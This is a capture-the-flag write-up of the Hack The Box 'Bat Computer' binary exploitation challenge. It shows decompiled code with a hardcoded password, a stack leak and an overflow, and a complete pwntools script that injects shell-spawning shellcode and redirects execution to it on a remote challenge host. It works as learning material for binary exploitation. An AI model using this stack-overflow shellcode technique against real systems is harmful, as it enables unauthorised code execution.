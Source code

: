 ```yaml
---

title: HTB [BAT COMPUTER] [PWN]

date: 2022-06-03 01:57:05 +0200

categories: [pwn,htb]

tags: [Intro to Binary Exploitation]

---
```


## Bat computer

**Analysis:**

```css
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
- We don't have nx, seems like we need to execute shellcode here

![](https://i.imgur.com/uCzpFvJ.png)
- And option **1** gives us a stack leak, for now let's assume our buffer starts here..

**Decompile main()**

```c
undefined8 main(void)

{
  int iVar1;
  int local_68;
  char acStack100 [16];
  undefined auStack84 [76];
  
  FUN_001011a9();
  while( true ) {
    while( true ) {
      memset(acStack100,0,0x10);
      printf(
            "Welcome to your BatComputer, Batman. What would you like to do?\n1. Track Joker\n2. Chase Joker\n> "
            );
      __isoc99_scanf(&DAT_00102069,&local_68);
      if (local_68 != 1) break;
      printf("It was very hard, but Alfred managed to locate him: %p\n",auStack84);
    }
    if (local_68 != 2) break;
    printf("Ok. Let\'s do this. Enter the password: ");
    __isoc99_scanf(&DAT_001020d0,acStack100);
    iVar1 = strcmp(acStack100,"b4tp@$$w0rd!");
    if (iVar1 != 0) {
      puts("The password is wrong.\nI can\'t give you access to the BatMobile!");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    printf("Access Granted. \nEnter the navigation commands: ");
    read(0,auStack84,0x89);
    puts("Roger that!");
  }
  puts("Too bad, now who\'s gonna save Gotham? Alfred?");
  return 0;
}
```

- In option 2 there's a `strcmp()`  we can get that password easily by reading the decompile code
- If we enter that correctly then we can able to give `0x89` bytes input to `auStack84` array, which is only `76` bytes long
- So we can give 61 bytes more than the allocated space

**Plan:**
- First let's give our shellcode
- Then let's fill the junk till the rbp
- Finally let's overwrite the return address with the leaked address (that we got from the option 1)

**Exploit script:**

```python
from pwn import *

context.binary = ELF('./batcomputer')
p = remote('142.93.39.44',31365)


p.sendline('1')
p.recvuntil('0x')
stack_base = int(("0x"+p.recv().decode('latin-1').split()[0]),16)
log.success(f'stack base: {hex(stack_base)}')
p.sendline('2')
p.sendline('b4tp@$$w0rd!')
payload = asm(shellcraft.popad() + shellcraft.sh()) # shellcode
payload += b'A'*(84 - len(payload)) # junk
payload += p64(stack_base) # stack base

p.sendline(payload)
p.sendline('3')
p.interactive()
```

![](https://i.imgur.com/edqZ3TO.png)
- Cool we got our flag
